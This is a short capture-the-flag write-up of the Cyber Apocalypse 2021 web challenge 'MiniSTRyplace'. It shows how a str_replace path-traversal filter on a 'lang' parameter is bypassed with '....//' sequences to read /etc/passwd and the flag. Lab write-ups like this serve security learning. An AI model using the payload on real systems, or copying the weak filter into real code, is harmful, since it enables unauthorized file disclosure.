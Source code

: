 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2021 | MiniSTRyplace Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2021
parent: cyber_apocalypse_2021
category: web
challenge: MiniSTRyplace
tags: "web, bobby, twh, lfi"
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2021</h1>

## MiniSTRyplace

> Solved by: Bobbysox and thewhiteh4t

* hint1: “Let's read this website in the language of Alines. Or maybe not?
This challenge will raise 33 euros for a good cause.”
* hint2: The challenges name is “miniSTRyplace”. This is a play on words for str_replace.
* We see right away that we can change language and it is represented:
`ip.address/?lang=es.php` a perfect place to try LFI

* In order to prevent path traversal, developers can implement blacklisting. It will usually look something like this:

```
$language = str_replace('../', '', $_GET['language']);
```

* This is where you can see the name of the challenge was a hint to the sec measures used.
*now we can modify our final payload to bypass blacklisting:

```
http://46.101.77.180:32490/?lang=....//....//....//....//....//....//....//....//etc/passwd
```

* Our exploit is successful, to get the flag we just used the following :

```
http://165.227.234.7:30779/?lang=....//....//flag
```

